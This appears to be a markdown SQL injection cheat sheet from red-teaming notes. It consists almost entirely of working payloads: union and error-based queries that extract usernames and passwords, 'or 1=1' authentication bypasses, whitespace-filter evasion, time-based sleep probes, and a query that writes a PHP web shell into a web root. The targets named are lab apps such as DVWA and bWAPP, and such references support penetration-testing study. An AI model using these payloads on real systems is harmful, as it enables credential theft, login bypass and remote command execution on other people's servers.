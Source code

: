 ## Classic SQL Injection
| **Command** | **Description** |
| --------------|-------------------|
| `database()` | Prints the current database |
| `user()`  | Print the current user |
| `@@version` | Print the version of the database |
| `@@datadir` | Print the path where the mysql server is located |



### Union Select Data Extraction

```sql
mysql> select * from users where user_id = 1 order by 7;              
ERROR 1054 (42S22): Unknown column '7' in 'order clause'
mysql> select * from users where user_id = 1 order by 6;
mysql> select * from users where user_id = 1 union select 1,2,3,4,5,6;
http://demo.ine.local/sqli_2.php?movie=99 UNION SELECT NULL, @@datadir, @@version, @@version, NULL, NULL, NULL&action=go
```


```sql
select * from users where user_id = 1 union all select 1,(select group_concat(user,0x3a,password) from users),3,4,5,6;
' AND (SELECT 1 from(Select count(*), concat("Hello ", version()," - ", FLOOR(RAND(0)*2)) B from information_schema.tables group by B) C) #

' AND (SELECT 1 from(Select count(*), concat("Hello ", (select distinct(column_name) from information_schema.columns where table_schema="bWAPP" and table_name='users' limit 3,1)," - ", FLOOR(RAND(0)*2)) B from information_schema.tables group by B) C) #

' AND (SELECT 1 from (Select count(*), concat("Hello ", (select password from bWAPP.users limit 0,1)," - ", FLOOR(RAND(0)*2)) B from information_schema.tables group by B) C) #

' AND (SELECT 1 from (Select count(*), concat("Hello ", (select login from bWAPP.users limit 1,1)," - ", FLOOR(RAND(0)*2)) B from information_schema.tables group by B) C) #


```

### Authentication Bypass

```sql
mysql> select * from users where user='admin' and password='blah' or 1 # 5f4dcc3b5aa765d61d8327deb882cf99'
mysql> select * from users where user='admin' and password='blah' OR 1=1 limit 5,1 # 5f4dcc3b5aa765d61d8327deb882cf99'
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/assets/Screenshot%20from%202018-11-17%2016-16-06.png)

### Second Order Injection

```sql
mysql> insert into accounts (username, password, mysignature) values ('admin','mynewpass',(select user())) # 'mynewsignature');
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2016-57-24.png)

### Dropping a Backdoor

```sql
mysql> select * from users where user_id = 1 union select all 1,2,3,4,"<?php system($_REQUEST['c']);?>",6 into outfile "/var/www/dvwa/shell.php" #;
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2019-15-16.png)

### Conditional Select

```sql
mysql> select * from users where user = (select concat((select if(1>0,'adm','b')),"in"));
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2021-39-53.png)

### Bypassing Whitespace Filtering

```sql
mysql> select * from users where user_id = 1/**/union/**/select/**/all/**/1,2,3,4,5,6;
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2022-43-46.png)

## Time Based SQL Injection

### Sleep Invokation

```sql
mysql> select * from users where user_id = 1 or (select sleep(1)+1);
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2015-51-50.png)

```sql
select * from users where user_id = 1 union select 1,2,3,4,5,sleep(1);
```
